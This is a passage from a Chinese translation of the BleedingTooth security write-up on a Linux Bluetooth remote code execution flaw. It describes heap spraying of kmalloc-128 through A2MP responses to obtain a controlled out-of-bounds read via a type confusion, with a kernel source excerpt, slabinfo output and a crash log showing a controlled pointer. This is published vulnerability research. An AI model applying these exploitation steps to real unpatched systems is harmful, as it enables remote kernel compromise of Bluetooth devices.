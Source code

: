 为了让 `amp_ctrl_lookup()` 返回一个控制结构，我们必须首先使用 `A2MP_GETINFO_RSP` 命令将它添加到列表中:

```c
// https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/net/bluetooth/a2mp.c
static int a2mp_getinfo_rsp(struct amp_mgr *mgr, struct sk_buff *skb,
			    struct a2mp_cmd *hdr)
{
	struct a2mp_info_rsp *rsp = (struct a2mp_info_rsp *) skb->data;
	...
	ctrl = amp_ctrl_add(mgr, rsp->id);
	...
}
```

这几乎是完美的堆原语，因为大小和内容可以是任意的！唯一的缺点是没有方便的原语来释放分配。释放它们的唯一方法似乎是关闭 HCI 连接，这是一个相对缓慢的操作。然而，为了理解如何以一种受控的方式释放分配(例如，释放每一秒的分配以产生漏洞)，我们需要密切关注内存管理。注意，当我们在 `ctrl->assoc` 中存储一个新的内存地址时，我们不会释放之前存储在那里的内存块。相反，当我们覆盖它时，这个内存块内容会丢失。为了利用这种行为，我们可以每秒钟用不同大小的分配覆盖一次 `ctrl->assoc`，一旦我们关闭 HCI 连接，另一半将被释放，而我们覆盖的那些仍然被分配。

## 控制越界读取

为什么我们要用堆原语呢?回想一下，我们的想法是塑造堆并实现一个群，其中我们控制的内存块位于距离结构体 `amp_mgr` 对象一个块的位置。通过这样做，我们可以控制偏移 0x110 处的值，它表示 `sk_filter` 指针。因此，当触发类型混淆时，可以对任意指针解引用。

下面的基本技术在使用了 SLUB 分配器的 Ubuntu 上非常可靠:

- 分配大量128字节大小的对象来填充 `kmalloc-128 slab`。
- 创建一个新的 A2MP 通道，并希望 `struct amp_mgr` 对象与被喷射的对象相邻。
- 触发类型混淆并实现受控的越界读取。

为了验证我们的堆喷射是否成功，我们可以首先查询 `/proc/slabinfo` 来获取受害者机器上的 `kmalloc-128` 的信息:

```shell
$ sudo cat /proc/slabinfo
slabinfo - version: 2.1
# name            <active_objs> <num_objs> <objsize> <objperslab> <pagesperslab> : tunables <limit> <batchcount> <sharedfactor> : slabdata <active_slabs> <num_slabs> <sharedavail>
...
kmalloc-128         1440   1440    128   32    1 : tunables    0    0    0 : slabdata     45     45      0
...
```

然后，在堆喷射之后，我们可以再次查询，发现 `active_objs` 增加了：

```shell
$ sudo cat /proc/slabinfo
...
kmalloc-128         1760   1760    128   32    1 : tunables    0    0    0 : slabdata     55     55      0
...
```

在上面的例子中，我们喷射了 320 个对象。现在，如果我们设法在这些新喷射的对象周围分配 `struct amp_mgr` 对象，我们可能会在试图对受控指针(观察RAX的值)进行解引用时遇到一个 panic：

```
[   58.881623] general protection fault: 0000 [#1] SMP PTI
[   58.881639] CPU: 3 PID: 568 Comm: kworker/u9:1 Not tainted 5.4.0-48-generic #52-Ubuntu
[   58.881645] Hardware name: Acer Aspire E5-575/Ironman_SK  , BIOS V1.04 04/26/2016
[   58.881705] Workqueue: hci0 hci_rx_work [bluetooth]
[   58.881725] RIP: 0010:sk_filter_trim_cap+0x65/0x220
[   58.881734] Code: 00 00 4c 89 e6 48 89 df e8 b8 c5 af ff 41 89 c5 85 c0 75 62 48 8b 83 10 01 00 00 48 85 c0 74 56 49 8b 4c 24 18 49 89 5c 24 18 <4c> 8b 78 18 48 89 4d b0 41 f6 47 02 08 0f 85 41 01 00 00 0f 1f 44
[   58.881740] RSP: 0018:ffffbbccc10d3ca0 EFLAGS: 00010202
[   58.881748] RAX: 4343434343434343 RBX: ffff96da38f70300 RCX: 0000000000000000
[   58.881753] RDX: 0000000000000000 RSI: ffff96da62388300 RDI: ffff96da38f70300
[   58.881758] RBP: ffffbbccc10d3d00 R08: ffff96da38f67700 R09: ffff96da68003340
[   58.881763] R10: 00000000000301c0 R11: 8075f638da96ffff R12: ffff96da62388300
```

[#]: subject: "BleedingTooth: Linux Bluetooth Zero-Click Remote Code Execution"
[#]: via: "https://google.github.io/security-research/pocs/linux/bleedingtooth/writeup.html"
[#]: author: "Andy Nguyen (theflow@)"
[#]: collector: "Licae"
[#]: translator: "b1lack"
[#]: reviewer: "firmianay"
[#]: publisher: "firmianay"
[#]: url: " "
[1]: https://github.com/google/syzkaller
[2]: https://www.armis.com/research/bleedingbit
[3]: https://knobattack.com
[4]: https://www.armis.com/blueborne
[5]: https://insinuator.net/2020/04/cve-2020-0022-an-android-8-0-9-0-bluetooth-zero-click-rce-bluefrag
[6]: https://youtu.be/qPYrLRausSw
[7]: http://www.bluez.org
[8]: https://www.intel.com/content/www/us/en/security-center/advisory/intel-sa-00435.html
[9]: https://github.com/google/security-research/security/advisories/GHSA-ccx2-w2r4-x649
[10]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=a2ec905d1e160a33b2e210e45ad30445ef26ce0e
[11]: htts://github.com/google/security-research/security/advisories/GHSA-7mh3-gq28-gfrq
[12]: https://github.com/google/security-research/security/advisories/GHSA-h637-c88j-47wq
[13]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=eddb7732119d53400f48a02536a84c509692faa8
[14]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=f19425641cb2572a33cb074d5e30283720bd4d22
[15]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=b176dd0ef6afcb3bca24f41d78b0d0b731ec2d08
[16]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=b560a208cda0297fef6ff85bbfd58a8f0a52a543
[17]: https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/tree/scripts/extract-vmlinux
[18]: https://github.com/JonathanSalwan/ROPgadget
[19]: https://a13xp0p0v.github.io/2020/02/15/CVE-2019-18683.html
[20]: http://www.bluez.org/development/credits
[21]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/net/bluetooth?id=f19425641cb2572a33cb074d5e30283720bd4d22
[22]: https://git.kernel.org/pub/scm/linux/kernel/git/next/linux-next.git/commit/net/bluetooth?id=2bd056f550808eaa2c34a14169c99f81ead083a7
[23]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/net/bluetooth?id=b176dd0ef6afcb3bca24f41d78b0d0b731ec2d08
[24]: https://github.com/google/syzkaller/commits?author=TheOfficialFloW
[25]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=b50dc237ac04d499ad4f3a92632470a9eb844f7d
[26]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=cafd472a10ff3bccd8afd25a69f20a491cd8d7b8
[27]: https://git.kernel.org/pub/scm/linux/kernel/git/bluetooth/bluetooth-next.git/commit/?id=51c19bf3d5cfaa66571e4b88ba2a6f6295311101